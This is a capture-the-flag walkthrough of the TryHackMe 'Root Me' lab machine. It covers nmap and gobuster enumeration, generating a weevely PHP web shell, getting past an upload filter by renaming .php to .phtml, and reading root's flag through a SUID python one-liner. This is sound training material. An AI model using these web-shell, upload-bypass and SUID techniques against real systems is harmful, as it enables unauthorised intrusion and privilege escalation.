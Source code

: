 # Root Me
## Enumeration
``` 
nmap -sV -sS -A -o nmap.out {your ip}
In Nmap I found:
Port 80 Is Running Apache Server
Port 22 Is Running SSH
```
```
# Nmap 7.80 scan initiated Sun May  9 21:44:56 2021 as: nmap -sV -sS -A -o nmap.out 10.10.85.5
Nmap scan report for 10.10.85.5
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   58.49 ms  10.17.0.1
2   ... 4
5   198.58 ms 10.10.85.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  9 21:46:45 2021 -- 1 IP address (1 host up) scanned in 110.05 seconds
```
# website Lookup
```
Nothing In Website
So i started gobuster
gobuster -u {your ip} -w /usr/share/dirb/wordlists/common.txt
```
![Alt](/home/pmk/Documents/ctf/tryhackme/rootme/buster.png)
```
Found /panel and /uploads
In Panel We Have Access To Upload Files.
```
![Alt](/home/pmk/Documents/ctf/tryhackme/rootme/panel.png)
```
I Fired Up Terminal And Immediately Installed weevely
About Weevely:
Weevely Is A PHP reverse shell listener and creator 
command = weevely generate {your pass} shell.php 
 shell.php 
Lets Upload It Now.
```
![Alt](php-not-allow.png)
#### I Transalated It Using Google Transalate
![Alt](transalate.png)
#### Php Is Not Allowed
#### Lets See Hint Which FILE UPLOAD BYPASS
#### I googled It And Got This
![Alt](file-bypass.png)
### So i Renamed From .php to .phtml
![Alt](uplaod.png)
### Now It Is Uploaded
![Alt](success.png)
```
I Remember I Also Found A Hidden Directory Named /uploads In Gobuster Lets Visit it Now
```
### Thats All We Need Lets Open It shell.phtml
![Alt](uploads.png)

### Now I Fired Terminal And Typed
```
weevely http://{your-ip}/uploads/shell.phtml 5142
```
## Boom I Got A Reverse Shell
![Alt](rev-shell.png)
### Lets CD To user.txt
```
user.txt was present inside /var/www/
```
![Alt](user.png)
# Privilage Escalation
### We Got Nothing using sudo -l
### So I Started Search For Files with SUID Permission
```
find / -user root -perm /4000
```
### /usr/bin/python is Too Suspicious
![Alt](python-weird.png)
### I Know A Trick Here To Get Root.txt 
```
python -c 'print(open("/root/root.txt").read())'
```
## Boom Escalation In Less Than 30 Seconds
![Alt](priv.png)
# Machine Hacked By Patan Musthakheem Khan
##### github.com/pmk456
